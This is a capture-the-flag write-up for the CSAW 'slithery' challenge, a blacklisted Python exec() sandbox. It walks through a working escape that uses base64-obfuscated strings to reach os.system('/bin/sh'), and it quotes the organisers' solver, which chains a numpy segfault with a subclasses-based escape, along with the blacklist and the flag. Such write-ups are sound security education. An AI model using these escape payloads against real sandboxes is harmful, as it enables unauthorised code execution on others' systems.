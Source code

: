 ## slithery [100]
*Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...*

`nc pwn.chal.csaw.io 5011`

Files: `sandbox.py`
### Solution
This challenge is **extremely poorly made** (no offense intended). But before I get into that, let's have a look at the source code for `sandbox.py`:

```python
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p
def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]): raise Exception("not allowed!!")
            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)
        except (KeyboardInterrupt, EOFError): return 0
        except Exception as e: print(f"Exception: {e}")

if __name__ == "__main__": exit(main())
```
We can play around with it for a bit:
```python
EduPy 3.8.2
>>> ls
Exception: name 'ls' is not defined
>>> import os
Exception: not allowed!!
>>> print('hi')
hi
```
In this challenge, you have a restricted python `exec()` shell that has a blacklist of unallowed strings, full list enumerated here:
```python
BLACKLIST = [ "__builtins__", "__import__", "eval", "exec", "import", "from", "os", "sys", "system", "timeit", "base64" "commands", "subprocess", "pty", "platform", "open", "read", "write", "dir", "type", ]
# a less restrictive blacklist for the 2nd sandbox. Player can use any other payload to read the flag.txt on server.
BLACKLIST2 = [ "eval", "exec", "import", "from", "timeit", "base64" "commands", "subprocess", "pty", "platform", "write", "dir", "type", ]
```
We'll get back to BLACKLIST later. For now, let's have a look at the `exec()`'d code:
```python
uOaoBPLLRN = open("sandbox.py", "r")  # file descriptor
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8) #1
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")  # ['from', 'base64', 'import', 'b64decode']
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU] #'base64'
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]#'b64decode'
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)  # !!! base64.b64decode()
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))  # numpy
# Your command here
```
`BLACKLIST` only includes plaintext words. Because we have access to `base64.b64decode == HrjYMvtxwA`, we can send in any string to the shell as a base64-encoded value:
```python
>>> print('system')
Exception: not allowed!!
>>> print(HrjYMvtxwA(b'c3lzdGVt').decode())
system
```
`__import__` might be blacklisted, but `getattr()` isn't, and many objects in python have `__builtins__` as an attribute, which *in turn* has `__builtins__.__dict__['__import__'] == __import__`. All we need to do is to call `getattr(__import__('os'), 'system')('/bin/sh')`.
```python
>>> builtins = getattr(RMbPOQHCzt, HrjYMvtxwA(b'X19idWlsdGluc19f').decode())
>>> imp0rt = builtins[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode()]
>>> sYstem = getattr(imp0rt(HrjYMvtxwA(b'b3M=').decode()), HrjYMvtxwA(b'c3lzdGVt').decode())
>>> sYstem(HrjYMvtxwA(b'L2Jpbi9zaA=='))
ls
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
```

### Wait, but what about the whole "Two sandboxes" thing?
Irrelevent. According to the remote server's `solver.py`, we were supposed to initiate a *segfault due to a null dereference* in numpy, and then continue on to pierce a *second* sandbox!

Yeah. This was their solution:
```python
p = remote("localhost", "8000")
numpy_escape = "RMbPOQHCzt.vdot(RMbPOQHCzt.intc(), RMbPOQHCzt.ndarray(1, {}))"
py_escape = "[].__class__.__base__.__subclasses__()[134].__init__.__globals__['sys'].modules['os'].system('cat flag.txt')"

p.sendlineafter(">>> ", numpy_escape)
p.sendlineafter(">> ", py_escape)
p.interactive()
```

Other contestants had even faster solutions! [I suggest reading them all](https://ctftime.org/task/12994) to get a sense of how easy python jailbreaking can get.
### Flag
`flag{y4_sl1th3r3d_0ut}`